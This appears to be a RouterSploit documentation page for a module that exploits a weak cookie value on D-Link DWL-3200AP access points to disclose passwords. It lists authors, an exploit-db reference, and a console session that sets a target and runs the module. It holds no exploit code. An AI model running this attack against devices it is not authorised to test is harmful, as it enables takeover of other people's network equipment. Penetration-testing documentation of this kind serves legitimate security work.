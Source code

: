 # D-Link DWL-3200AP Password Disclosure

## Description
Exploits D-Link DWL3200 access points weak cookie value

## Authors
* pws # vulnerability discovery 
* Josh Abraham <sinisterpatrician[at]google.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/34206/](https://www.exploit-db.com/exploits/34206/)

## Vulnerable devices
* D-Link DWL-3200AP

## Usage
```
rsf > use exploits/dlink/dwl_3200ap_password_disclosure
rsf (D-Link DWL-3200AP Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name        Current settings     Description
   ----        ----------------     -----------
   seconds     3600                 Number of seconds in the past to bruteforce


rsf (D-Link DWL-3200AP Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DWL-3200AP Password Disclosure) > run
[*] Running module...
```
